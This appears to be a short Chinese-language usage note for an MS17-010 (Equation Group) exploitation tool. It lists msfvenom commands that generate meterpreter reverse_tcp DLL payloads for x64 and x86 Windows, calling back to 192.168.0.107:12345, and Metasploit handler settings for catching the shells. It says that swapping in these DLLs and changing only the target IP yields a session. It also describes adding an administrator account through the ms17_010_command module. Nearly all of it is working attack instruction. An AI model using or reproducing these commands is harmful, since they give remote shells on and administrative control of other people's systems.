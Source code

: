 	msfvenom生成一个x64或x86的dll文件，替换该工具下的x64.dll或x86.dll
	windows server 2008 ，msfvenom生成x64.dll文件
	msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.0.107 LPORT=12345 -f dll > x64.dll
	msf配置
	use exploit/multi/handler 
	set payload windows/x64/meterpreter/reverse_tcp
	set lport 12345
	set lhost 192.168.0.107
	将该x64.dll替换到方程式利用工具下面。
	只需要更换目标的IP，就可以获取session。
	windows server 2003 ，msfvenom生成x86.dll文件
	msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.0.107 LPORT=12345 -f dll > x86.dll
	msf配置
	use exploit/multi/handler 
	set payload windows/meterpreter/reverse_tcp
	set lport 12345
	set lhost 192.168.0.107
	通过ms17_010_commend模块执行系统命令添加用户至管理员。再指定SMBPass和SMBUser来建立windows可访问命名管道
